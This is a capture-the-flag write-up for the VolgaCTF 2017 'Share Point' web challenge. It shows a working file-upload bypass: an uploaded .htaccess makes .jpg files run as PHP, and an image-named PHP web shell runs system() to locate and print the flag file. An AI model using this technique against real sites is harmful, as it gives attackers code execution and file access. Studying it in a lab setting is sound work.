



# Share Point
### Web 200pts

> **Share Point**    
>
> Look! I wrote a good service for sharing your files with your friends, enjoy)    
> [share-point.quals.2017.volgactf.ru](http://share-point.quals.2017.volgactf.ru/)

The link leads you to a website where have to login to continue. I logged in
with a custom username and password. Now you can upload and share you images.

There was a file upload vulnerability. So using that vulnerability, you can upload
any image and then change it to a php file. For that I first uploaded my
[.htaccess](files/.htaccess)
file.
> **.htaccess**    
>
> Options +Indexes    
> IndexOptions FancyIndexing FoldersFirst NameWidth=\* DescriptionWidth=\*    
> AddType application/x-httpd-php .jpg

Now I uploaded a [PHP shell](files/file.php.jpg) to print output the flag.
> **file.php.jpg**    
> <?php    
> system("cat < $(find / | grep 'flag.txt')");    
> ?>    

Then I went to Files and I could see both of my files.

I opened file.php.jpg to read the flag. The flag was `VolgaCTF{AnoTHer_apProOAch_to_file_UplOAd_PhP}`

